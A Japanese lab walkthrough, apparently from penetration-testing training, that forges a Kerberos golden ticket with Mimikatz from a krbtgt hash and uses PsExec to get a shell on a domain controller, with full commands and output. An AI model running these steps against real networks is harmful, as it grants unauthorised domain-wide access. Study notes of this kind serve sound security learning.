 ```

既存のkerberosチケットを削除する
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK


kerberos::goldenコマンドを指定してゴールデンチケットを作成する
また、
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session


ゴールデン チケットがメモリに挿入された状態で、 misc::cmdを使用して新しいコマンド プロンプトを起動し、そこからPsExecを使用して横方向の移動を再度試みる
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes    
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
```